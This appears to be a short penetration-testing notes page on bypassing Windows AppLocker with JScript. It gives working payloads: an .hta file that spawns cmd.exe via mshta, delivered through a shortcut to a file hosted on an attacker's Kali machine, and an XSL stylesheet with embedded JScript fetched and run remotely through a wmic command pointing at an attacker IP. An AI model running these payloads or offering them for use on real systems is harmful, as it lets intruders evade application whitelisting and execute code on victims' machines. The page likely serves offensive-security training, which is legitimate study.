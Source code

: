 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_JScript
---
```


<span style="font-size: 35px; color:red"><b>Applocker Bypass with JScript</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>MSHTA</b></span>
We'll abuse <span style="color:red">Microsoft HTML Applications</span> (MSHTA) running an .hta file.

Simple hta file:
```html
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

To run it:
```shell
mshta C:\Tools\test.hta
```

To deliver it, you can createa shortcut. To create the shortcut file, we'll right-click the desktop on the Windows 10 victim machine and navigate to _New_ -> _Shortcut_. In the new window, we'll enter the MSHTA executable path <span style="color:red">(C:\Windows\System32\mshta.exe)</span> followed by the URL of the .hta file on our Kali machine
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>XSL Transform</b></span>
The process of XSLT uses <span style="color:red">Extensible Stylesheet Language</span> (.xsl) documents to transform an XML document into a different format such as <span style="color:red">XHTML</span>.
XSL file (test.xsl):
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell"); 'payload here
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

Download and run like so:
```shell
wmic process get brief /format:"http://<IP>/test.xsl"
```
